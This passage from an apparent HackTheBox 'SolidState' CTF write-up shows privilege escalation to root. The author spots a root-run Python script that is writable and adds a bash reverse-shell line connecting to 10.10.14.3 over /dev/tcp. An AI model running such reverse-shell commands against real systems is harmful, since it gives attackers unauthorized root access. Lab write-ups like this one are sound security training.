Let's get root.

# mindy --> root

Seeing what is in /opt we get something interesting

```sh
ls -l /opt/
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2007:44:06.png)

Running [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0) we found some good proccess running as root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2007:45:59.png)

root is running this python file, and we can modify it!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2007:47:27.png)

So, it's easy to get a reverse root shell

```py
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.3/8855 0>&1"')
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2007:48:01.png)

After some minutes, we are root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2007:51:15.png)